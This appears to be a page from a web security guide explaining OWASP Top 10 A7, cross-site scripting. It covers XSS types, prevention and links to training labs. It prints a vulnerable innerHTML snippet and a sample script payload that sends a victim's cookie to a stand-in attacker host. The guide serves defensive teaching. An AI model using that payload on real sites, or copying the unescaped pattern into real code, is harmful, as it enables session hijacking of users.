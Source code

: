 ```yaml
---
title: A7 Cross-site scripting (XSS)
sidebar_position: 8
---
```


# A7 Cross-site scripting (XSS)

## Definition

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

## Risk Factor Summary

- Score: 6.0
- Attack Vectors Exploitability: 3
- Security Weakness Prevalence: 3
- Security Weakness Detectability: 3
- Impact Technical: 2

## Context

<iframe
  width='100%'
  height='450'
  src='https://www.youtube.com/embed/IuzU4y-UjLw'
></iframe>

Automated tools can detect and
exploit all three forms of XSS, and
there are freely available exploitation
frameworks.

XSS is the second most prevalent issue in the
OWASP Top 10, and is found in around two-thirds of
all applications.

Automated tools can find some XSS problems
automatically, particularly in mature technologies
such as PHP, J2EE / JSP, and ASP.NET.

The impact of XSS is moderate for
reflected and DOM XSS, and severe
for stored XSS, with remote code
execution on the victim's browser,
such as stealing credentials,
sessions, or delivering malware to the
victim.

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

- **Reflected XSS:** The application or API includes unvalidated and
  unescaped user input as part of HTML output. A successful
  attack can allow the attacker to execute arbitrary HTML and
  JavaScript in the victim’s browser. Typically the user will need to
  interact with some malicious link that points to an attackercontrolled page, such as malicious watering hole websites,
  advertisements, or similar.

- **Stored XSS:** The application or API stores unsanitized user
  input that is viewed at a later time by another user or an
  administrator. Stored XSS is often considered a high or critical
  risk.

- **DOM XSS:** JavaScript frameworks, single-page applications, and
  APIs that dynamically include attacker-controllable data to a
  page are vulnerable to DOM XSS. Ideally, the application would
  not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover,
MFA bypass, DOM node replacement or defacement (such as
trojan login panels), attacks against the user's browser such as
malicious software downloads, key logging, and other client-side
attacks.

## Conceptual Attacks

### Scenario #1:

The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping:

```js
const urlParams = new URLSearchParams(window.location.search)

page.innerHTML += `<input name='creditcard' type='TEXT'
value='${urlParams.get('CC')}'>`
```

The attacker modifies the ‘CC’ parameter in the browser to:

```
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

This attack causes the victim’s session ID to be sent to the
attacker’s website, allowing the attacker to hijack the user’s
current session.

Note: Attackers can use XSS to defeat any automated CrossSite Request Forgery (CSRF) defense the application might
employ.

## Example Attack Scenarios

### Please review

- The [Explained attack: Cross-site scripting (XSS) in this guide](/attacks_explained/cross-site_scripting_xss)
  - [Reflected XSS](/attacks_explained/cross-site_scripting_xss#reflected-xss)
  - [Stored XSS](/attacks_explained/cross-site_scripting_xss#stored-xss)
  - [DOM XSS](/attacks_explained/cross-site_scripting_xss#dom-xss)
- The [Explained attack: Cross Site Request Forgery (CSRF) in this guide](/attacks_explained/cross_site_request_forgery_csrf)
- The [Explained attack: Server-Side Request Forgery (SSRF) in this guide](/attacks_explained/server-side_request_forgery_ssrf)

## How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:

- Using frameworks that automatically escape XSS by design,
  such as the latest Ruby on Rails, React JS. Learn the
  limitations of each framework's XSS protection and
  appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
  the HTML output (body, attribute, JavaScript, CSS, or URL) will
  resolve Reflected and Stored XSS vulnerabilities. The OWASP
  [Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
  escaping techniques.
- Applying context-sensitive encoding when modifying the
  browser document on the client side acts against DOM XSS.
  When this cannot be avoided, similar context sensitive
  escaping techniques can be applied to browser APIs as
  described in the [OWASP Cheat Sheet 'DOM based XSS
  Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
  mitigating control against XSS. It is effective if no other
  vulnerabilities exist that would allow placing malicious code via
  local file includes (e.g. path traversal overwrites or vulnerable
  libraries from permitted content delivery networks).

## Hacking Playground

- [🐐 NodeGoat | A7 Cross-site scripting (XSS)](https://nodegoat.herokuapp.com/tutorial/a7)
- [🧃 Pwning OWASP Juice Shop | A7 Cross-site scripting (XSS)](https://pwning.owasp-juice.shop/part2/xss.html)
- [Kontra | Server Side Request Forgery](https://application.security/free-application-security-training/server-side-request-forgery-in-capital-one)
- [Kontra | TikTok Cross Site Scripting Vulnerability](https://application.security/free-application-security-training/cross-site-scripting-vulnerability-in-tiktok)
- [Kontra | Reflected XSS](https://application.security/free-application-security-training/owasp-top-10-reflected-cross-site-scripting)
- [Kontra | Stored Cross Site Scripting](https://application.security/free-application-security-training/owasp-top-10-stored-cross-site-scripting)

## References

### OWASP

- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community//xss-filter-evasion-cheatsheet)

### CWEs

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
